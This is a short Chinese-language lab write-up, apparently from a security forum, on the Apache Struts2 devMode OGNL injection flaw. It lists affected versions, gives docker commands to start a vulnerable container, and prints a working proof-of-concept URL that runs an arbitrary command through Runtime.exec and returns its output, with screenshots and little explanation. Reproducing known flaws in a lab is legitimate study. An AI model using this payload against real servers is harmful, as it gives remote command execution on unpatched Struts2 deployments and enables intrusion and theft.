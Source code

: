 #### 影响版本

```php
Struts 2.1.0--2.5.1，通杀Struts2所有版本
```

#### 启动漏洞

```php
docker pull medicean/vulapps:s_struts2_s2-devmode
```

![image-20210711220749755](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9a7910fccfe0a213c7c149a4175bef524104bd62.png)

```php
docker run -d -p 8080:8080 medicean/vulapps:s_struts2_s2-devmode
docker ps
```

![image-20210711220953688](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d664f2e06a4b1b17a6117fa0f0efc1c840345c5f.png)

![image-20210711221011780](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-bb63d2bcfffa7aefe2bd7c23467caf1bd57bce87.png)

#### poc

```php
/orders/new/?debug=browser&amp;o bject=(%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23context[%23parameters.rpsobj[0]].getWriter().println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()))):xx.toString.json&amp;rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&amp;content=123456789&amp;command=id
```

![image-20210711221128437](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1b01baa03933a34f84bcf401633b5f5eac1e7f1c.png)

##### k8

![image-20210711221501211](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8b5e51cbfc4c4bcfc2b00c6b4b042f3d91afd00f.png)